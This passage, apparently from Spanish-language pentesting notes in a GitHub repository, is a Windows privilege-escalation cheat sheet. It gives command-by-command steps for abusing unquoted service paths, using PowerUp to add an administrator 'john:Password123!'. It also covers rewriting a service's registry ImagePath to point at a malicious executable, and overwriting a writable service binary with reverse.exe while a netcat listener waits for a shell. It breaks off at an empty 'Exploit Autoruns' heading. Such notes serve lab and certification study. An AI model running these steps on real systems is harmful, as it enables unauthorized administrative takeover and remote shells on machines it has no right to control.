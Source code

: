 ##### 2) Buscamos los unquoted

    Get-UnquotedService

##### 3) Indicamos el servicio que queremos abusar

    Write-ServiceBinary -Name '<servicio>' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Esto creará un usuario dentro del grupo administradores con nombre john:Password123!

##### 4) reiniciamos el servicio

    Restart-Service <servicio>

Se va a romper, pero se va a agregar el nuevo user.

---

### WEAK REGISTRY PERMISSIONS:

Una vez identificado un servicio que corre con privilegios elevados, corremos el accesschk.exe para ver si nuestro user/grupo al que pertenece puede escribir entradas de registro:

        accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\servicio

De tenerlos, podemos reescribir el imagepath key para que apunte a un archivo malicioso:


        reg add HKLM\SYSTEM\CurrentControlSet\services\service /v ImagePath /t REG_EXPAND_SZ /d C:\Path\to/malicious.exe /f

Iniciamos un netcat como listener y corremos el servicio

        net start regsvc

---

### INSECURE SERVICE EXECUTABLES

Una vez que detectamos el servicio con privilegios elevados, nos fijamos con accesschk.exe si el binario del servicio es writeable por nuestro user/grupo.

        C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\servicio.exe"

De tener permisos de escritura sobre el archivo, podemos reemplazarlo por nuestro archivo malicioso:

        copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\servicio.exe" /Y

Luego corremos netcat y corremos el servicio.

        net start servicio


---

# REGISTRY EXPLOITATION


### EXPLOIT AUTORUNS
